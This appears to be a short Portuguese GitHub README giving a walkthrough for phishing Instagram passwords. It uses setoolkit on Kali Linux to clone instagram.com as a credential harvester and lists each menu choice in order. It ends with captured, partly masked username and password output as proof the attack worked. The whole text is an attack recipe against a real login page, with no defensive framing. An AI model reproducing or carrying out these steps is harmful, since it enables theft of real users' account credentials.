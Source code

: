 # Phishing para captura de senhas do Instagram

### Ferramentas Utilizadas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.instagram.com

### Resutados
                                        \/\/\/\/\/\/\/\/
POSSIBLE USERNAME FIELD FOUND: username=XXXXXXX@XXXXXXXX                                                                                         
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.

[*] WE GOT A HIT! Printing the output:                                          \/\/\/
POSSIBLE PASSWORD FIELD FOUND: enc_password=#PWD_INSTAGRAM_BROWSER:0:1734392052:XXXXXXX   

![Alt text](./"Screenshot_2024-12-16_20_47_46.png")
